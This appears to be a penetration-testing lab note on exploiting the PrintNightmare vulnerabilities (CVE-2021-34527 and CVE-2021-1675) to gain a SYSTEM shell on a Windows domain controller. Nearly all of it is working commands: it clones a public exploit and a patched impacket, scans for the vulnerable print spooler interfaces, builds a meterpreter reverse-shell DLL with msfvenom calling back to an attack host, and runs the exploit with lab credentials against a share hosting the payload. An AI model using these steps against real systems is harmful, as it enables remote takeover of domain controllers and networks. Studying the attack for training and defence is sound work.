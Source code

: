 two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675))
SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host

```shell-session
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

we need cube0x0 version of impacket
```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

check if vulnerable
```shell-session
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

create dll payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
host it on a [[SMB Server]] and also start a msf multi/handler

run the exploit
```shell-session
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
Notice how at the end of the command, we include the path to the share hosting our payload (`\\<ip address of attack host>\ShareName\nameofpayload.dll`)
